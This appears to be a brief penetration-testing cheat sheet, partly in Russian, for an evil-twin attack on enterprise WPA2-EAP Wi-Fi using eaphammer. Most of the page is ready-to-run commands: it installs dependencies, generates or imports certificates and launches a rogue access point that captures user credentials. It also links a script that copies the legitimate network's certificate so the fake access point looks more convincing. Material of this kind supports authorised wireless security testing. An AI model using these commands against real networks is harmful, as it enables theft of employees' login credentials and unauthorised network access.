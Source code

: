 # Enterprise

### Evil Twin <a href="#evil-twin" id="evil-twin"></a>

#### Eaphammer

Firstly install requirements with venv **!! python3.11 !!**

```
bs4
pywebcopy
flask_socketio
flask_cors
flask
tqdm
pyOpenSSL
pem
```

To setup and execute a credential stealing evil twin attack against a WPA/2-EAP network:

```bash
# generate certificates
./eaphammer --cert-wizard

# launch attack
sudo ./eaphammer --essid CorpWifi --bssid 02:27:22:08:08:89 --interface wlan1 --creds
```

Import certificate

```bash
sudo ./eaphammer --cert-wizard import --server-cert cert.pem --ca-cert fullchain.pem --private-key privkey.key
```

View installed certs

```sh
sudo ./eaphammer --cert-wizard list
```



### Dump original cert

Для более убедительной атаки сертификат, представляемый пользователям при аутентификации, должен быть похож на легитимный сертификат. Сертификат, используемый легитимной точкой доступа (AP), можно извлечь из захвата сети с помощью следующего инструмента: [ссылка на скрипт](https://gist.github.com/Cablethief/a2b8f0f7d5ece96423ba376d261bd711).
